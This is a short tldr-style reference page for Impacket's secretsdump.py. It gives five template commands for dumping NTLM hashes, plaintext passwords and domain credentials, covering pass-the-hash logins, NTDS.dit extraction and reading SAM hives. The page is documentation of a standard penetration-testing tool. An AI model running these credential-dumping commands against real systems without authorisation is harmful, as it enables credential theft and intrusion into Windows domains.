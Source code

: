 # secretsdump.py

> Dump NTLM hashes, plaintext passwords, and domain credentials from remote Windows systems. Part of the Impacket suite. More information: <https://github.com/fortra/impacket>.

## Examples

### Dump credentials from a Windows machine using a username and password

```bash
secretsdump.py domain/username:password@target
```

### Dump hashes from a machine using pass-the-hash authentication

```bash
secretsdump.py -hashes LM_Hash:NT_Hash domain/username@target
```

### Dump credentials from Active Directory's NTDS.dit file

```bash
secretsdump.py -just-dc domain/username:password@target
```

### Extract credentials from a local SAM database using registry hives

```bash
secretsdump.py -sam path/to/SAM -system path/to/SYSTEM
```

### Dump hashes from a machine without providing a password (if a valid authentication session exists, e.g. via Kerberos or NTLM SSO)

```bash
secretsdump.py -no-pass domain/username@target
```
